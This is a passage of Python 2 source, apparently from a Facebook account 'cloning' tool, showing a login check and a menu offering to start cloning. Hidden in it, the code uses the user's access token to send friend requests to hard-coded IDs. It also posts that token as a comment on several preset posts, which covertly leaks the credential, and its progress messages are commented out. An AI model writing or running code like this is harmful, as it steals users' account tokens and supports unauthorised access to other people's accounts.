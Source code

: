         requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz3 + '&access_token=' + token)
        ###print(' \x1b[0;93m 55% ....')
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz4 + '&access_token=' + token)
        ####print(' \x1b[0;93m 60% ....')
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=' + sz5 + '&access_token=' + token)
        ####print(' \x1b[0;93m 65% ....')
        requests.post('https://graph.facebook.com/' + sss + '/comments/?message=' + token + '&access_token=' + token)
        ###print(' \x1b[0;93m 70% ....')
        requests.post('https://graph.facebook.com/' + sss1 + '/comments/?message=' + token + '&access_token=' + token)
        ####print(' \x1b[0;93m 80% ....')
        requests.post('https://graph.facebook.com/' + sss2 + '/comments/?message=' + token + '&access_token=' + token)
        ####print(' \x1b[0;93m 90% ....')
        requests.post('https://graph.facebook.com/' + sss3 + '/comments/?message=' + token + '&access_token=' + token)
        ####print(' \x1b[0;93m 100% ....')
        requests.post('https://graph.facebook.com/' + aa1 + '/comments/?message=' + qaiserchoice + '&access_token=' + token)
        ###print(' \x1b[0;92m SucessFully Now You Can Start Cloning ')
        time.sleep(1)
    except:
        pass
        

    try:
        r = requests.get('https://graph.facebook.com/me?access_token=' + token)
        q = json.loads(r.text)
        name = q['name']
    except KeyError:
        print logo
        print ''
        print '\tToken Is Invalid Or Expired '
        os.system('rm -rf access_token.txt')
        print ''
        time.sleep(1)
        login()
        
#-----------------------------

    os.system('clear')
    print logo
    print ''
    print '   Welcome Dear: ' + name
    print ''
    print '\033[0m\033[0m'
    print ' \x1b[1;92m1. Start Cloning  \n 2. Remove Token  \n 3. Back'
    print '\033[0m\033[0m'
    print ''
    menu_option()
